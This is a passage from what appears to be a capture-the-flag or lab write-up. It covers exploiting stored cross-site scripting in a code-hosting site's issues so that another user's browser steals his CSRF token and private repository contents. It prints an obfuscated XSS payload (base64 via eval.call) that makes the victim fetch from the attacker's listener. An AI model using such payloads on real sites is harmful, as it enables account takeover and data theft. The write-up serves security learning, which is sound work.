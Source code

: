 So someone is indeed checking the issues, and we can exploit this fact. So now we need to somehow make charlie request for our page, and observation of Burp reqeusts implies we need to steal the CSRF token to access his hidden repositories.

<figure><img src="../../../.gitbook/assets/image (4040).png" alt=""><figcaption></figcaption></figure>

After some more testing, I come across the eval.call XSS method through the page, and was able to include this within the issues to get a hitback on my netcat listener!

This is the payload used: `test<test><img SRC="x" onerror=eval.call${"eval\x28atobZmV0Y2goImh0dHA6Ly8xMC4xMC4xNC41LyIp\x29"}>`

<figure><img src="../../../.gitbook/assets/image (2765).png" alt=""><figcaption></figcaption></figure>

What this does is essentially is `fetch('http://10.10.x.x')` for Charlie to execute upon looking at the issues.

Now, we can use this XSS to send us the information from charlie's repos. This can be done using this payload:

<figure><img src="../../../.gitbook/assets/image (3919).png" alt=""><figcaption></figcaption></figure>

What this essentially does is this:

<figure><img src="../../../.gitbook/assets/image (3005).png" alt=""><figcaption></figcaption></figure>
